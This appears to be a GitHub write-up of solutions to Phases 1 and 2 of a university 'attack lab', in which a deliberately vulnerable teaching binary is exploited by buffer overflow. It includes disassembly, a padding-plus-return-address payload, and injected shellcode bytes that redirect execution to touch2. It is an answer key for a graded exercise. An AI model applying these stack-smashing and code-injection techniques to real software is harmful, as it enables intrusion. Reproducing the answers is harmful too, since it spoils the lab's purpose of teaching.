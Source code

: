 # attack_lab_solution

## Preface
To run this lab program, you should use the command `./ctarget -q` instead of `./ctarget` since there's no grading server.

## Phase 1
This phase is so easy and it just helps you to get familiar with this lab. You can choose to use the command objdump or just use gdb to solve this lab.
One way is to use the command objdump and then you get the corresponding source code of getbuf() and touch1() function:
``` asm00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40

```
It's clear that the address of touch1 should be 0x4017c0. Then you get the unique key to solve this problem. You also find that the command `sub $0x28, %rsp` allocates 40 bytes(0x28 = 40 in decimal). Then you just need to use some random bytes to fill up these 40 bytes and combine it with the address. 
It should be mentioned that you should know whether your system is little-endian or not, it decides the order of your answer. On my little-endian system, the answer could be 
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 
```

## Phase 2
We use the similar method to solve phase 2.
Firstly, let's have a look at the touch2 function, 
```
void touch2(unsigned val) {
  vlevel = 2;
  /* Part of validation protocol */ 
  if (val == cookie) {
  printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```
We know that the first argument is stored in the %rdi register, so we need to inject into the code to change the value of this register. 

We use the following code to change the value of %rdi
```
movq $0x59b997fa, %rdi
pushq $0x4017ec
retq
```
Note: the value of the cookie depends on your problem version.
We save the file and name it after phase2.s
then we use the command `gcc -c phase2.s` and `objdump -d phase2.o` to find the byte code 
```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3
```
Then similarly, we expand the byte code into 40 bytes, and let the jump address to be the address of rsp, which we can get by using gdb:
```
(gdb) until *0x4017b4
Type string:vsiuiusiugsiugifnsifsnfgnslkfsifnlisfn

Breakpoint 2, getbuf () at buf.c:16
16	in buf.c
(gdb) x/s $rsp
0x5561dc78:	"vsiuiusiugsiugifnsifsnfgnslkfsifnlisfn"
```
Here, we specify the jump address to be the address of rsp, which is also the address of the byte code we enter above. So the return address of getbuf will be changed. Then we accomplish the injection. 


